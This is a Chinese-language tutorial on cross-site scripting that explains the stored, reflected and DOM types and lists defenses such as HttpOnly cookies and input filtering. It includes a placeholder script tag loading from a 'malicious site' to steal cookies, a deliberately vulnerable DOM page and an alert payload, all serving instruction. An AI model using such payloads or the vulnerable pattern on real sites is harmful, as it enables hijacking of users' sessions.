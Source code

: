 # XSS

## **概念**

XSS（Cross Site Scripting，跨站脚本攻击），为了和层叠样式表（Cascading Style Sheet，CSS）区分，所以安全领域改为叫XSS。  
XSS攻击能让攻击者在受害者的浏览器中执行js脚本，并劫持用户会话、破坏网络或将用户重定向到其他恶意的站点。

## **存储型** 

利用漏洞提交恶意 JavaScript 代码，比如在input, textarea等所有可能输入文本信息的区域，输入`<script src="http://恶意网站"></script>`等，提交后信息会存在服务器中，当用户再次打开网站请求到相应的数据，打开页面，恶意脚本就会将用户的 Cookie 信息等数据上传到黑客服务器。

存储型（持续型）： 攻击过后，效果会一直存在，直到攻击被删除。比如一条腾讯新闻，将攻击代码插入在评论区，那么后面的用户都可能触发这个xss攻击。，可能是一张图片，用户一旦点击就会访问另一个地址，也许不用点击，只要访问就会触发。存储型危害特别大，特别是社交网站。如果一篇日志，里面有xss攻击代码，很多然转载阅读之后都可能会被盗取cookie。

## 反射型

反射型（非持续型）： 一次攻击，将修改好的链接发送给目标用户，让客户点击，达到攻击用户的目的，只能一次性，通过参数提交的方式。

## DOM型

代码示例

```markup
<html>
<head>
	<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
	<title>DOM型XSS重现</title>
</head>
<body>
	<script><!--js脚本-->
		function test(){
			var str = document.getElementById("text").value;
			document.getElementById("t").innerHTML = "<a href='"+str+"'>testLink</a>";
		}
	</script>
	<div id="t"></div>
	<input type="text" id="text" ="text" value="" />
	<input type="button" id="s" value="url" onclick="test()" />
</body>
</html>
```

利用payload`'><img src=# onerror="alert('XSS')"><'`执行XSS攻击

## 总结

| XSS类型 | 反射型 | 存储型 | DOM型 |
| :--- | :--- | :--- | :--- |
| 触发过程 | 正常用户访问携带XSS的url | 1.黑客构造XSS脚本 2.用户访问有XSS脚本的网站 | 正常用户访问携带XSS的url |

## XSS预防 <a id="XSS&#x9884;&#x9632;"></a>

因为XSS的根本就是向网站插入脚本代码，并使它运行的一种手段。防御方法分为两种，服务端防御和客户端防御。

**cookie** **secure属性**  
当设置为true时，表示创建的 Cookie 会被以安全的形式向服务器传输（ssl），即只能在 HTTPS 连接中被浏览器传递到服务器端进行会话验证，如果是 HTTP 连接则不会传递该信息，所以不会被窃取到Cookie 的具体内容。

**cookie** **HttpOnly属性**  
如果在Cookie中设置了"HttpOnly"属性，那么通过程序\(JS脚本、Applet等\)将无法读取到Cookie信息

服务器设置

1. **设置cookir HttpOnly,secure** 可以限制javascript不能读取cookie，防止会话ID泄露
2. **处理富文本** 过滤掉富文本中的敏感标签如（script、iframe、form），还有敏感词（javascript:） 等等

客户端防御：

1. **输入检查** 防止输入敏感字段，如javascript、cookie等等
2. **检查输出** 脚本都是通过混淆在HTML当中，被当成html代码的一部分才得到执行。

  


